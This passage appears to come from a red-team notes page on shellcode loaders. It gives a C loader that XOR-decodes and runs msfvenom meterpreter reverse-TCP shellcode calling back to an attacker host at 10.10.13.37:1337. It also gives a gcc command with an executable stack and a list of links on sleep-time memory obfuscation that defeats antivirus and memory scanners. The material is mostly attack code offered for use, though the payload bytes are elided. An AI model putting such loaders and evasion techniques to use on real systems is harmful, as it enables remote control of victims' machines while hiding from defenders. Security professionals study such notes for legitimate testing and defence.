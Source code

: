 ```c
// msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.13.37 LPORT=1337 -f c -o met.c --encrypt xor --encrypt-key a
unsigned char buf[] = 
"\x31\x33\...\x33\x37";

int main (int argc, char **argv)
{
	int bufsize = (int)sizeof(buf);
	for (int i = 0; i < bufsize-1; i++) { buf[i] = buf[i] ^ 'a'; }
	int (*ret)() = (int(*)())buf;
	ret();
}
```
{% endcode %}

Compile allowing execution on stack:

```
$ gcc -o loader loader.c -z execstack
```
{% endtab %}
{% endtabs %}




## Shellcode In-Memory Fluctuation (Obfuscate and Sleep)

{% embed url="https://twitter.com/_RastaMouse/status/1443923456630968320" %}

- [https://www.solomonsklash.io/SleepyCrypt-shellcode-to-encrypt-a-running-image.html](https://www.solomonsklash.io/SleepyCrypt-shellcode-to-encrypt-a-running-image.html)
- [https://github.com/SolomonSklash/SleepyCrypt](https://github.com/SolomonSklash/SleepyCrypt)
- [https://gist.github.com/S3cur3Th1sSh1t/6022dc2050bb1b21be2105b8b0dc077d](https://gist.github.com/S3cur3Th1sSh1t/6022dc2050bb1b21be2105b8b0dc077d)
- [https://github.com/mgeeky/ShellcodeFluctuation](https://github.com/mgeeky/ShellcodeFluctuation)
- [https://github.com/phra/PEzor/blob/master/fluctuate.cpp](https://github.com/phra/PEzor/blob/master/fluctuate.cpp)
- [https://labs.f-secure.com/blog/bypassing-windows-defender-runtime-scanning/](https://labs.f-secure.com/blog/bypassing-windows-defender-runtime-scanning/)
- [https://xz.aliyun.com/t/9399](https://xz.aliyun.com/t/9399)
- [https://github.com/zu1k/beacon_hook_bypass_memscan](https://github.com/zu1k/beacon_hook_bypass_memscan)
- [https://suspicious.actor/2022/05/05/mdsec-nighthawk-study.html](https://suspicious.actor/2022/05/05/mdsec-nighthawk-study.html)
- [https://github.com/secidiot/FOLIAGE](https://github.com/secidiot/FOLIAGE)
- [https://github.com/y11en/FOLIAGE](https://github.com/y11en/FOLIAGE)
- [https://github.com/ShellBind/G0T-B0R3D/blob/main/Cs-Sleep-Mask-Fiber.c](https://github.com/ShellBind/G0T-B0R3D/blob/main/Cs-Sleep-Mask-Fiber.c)
- [https://github.com/Cracked5pider/Ekko/blob/main/Src/Ekko.c](https://github.com/Cracked5pider/Ekko/blob/main/Src/Ekko.c)
- [https://mez0.cc/posts/vulpes-obfuscating-memory-regions/](https://mez0.cc/posts/vulpes-obfuscating-memory-regions/)
- [https://github.com/janoglezcampos/DeathSleep](https://github.com/janoglezcampos/DeathSleep)
- [https://github.com/kyleavery/AceLdr](https://github.com/kyleavery/AceLdr)
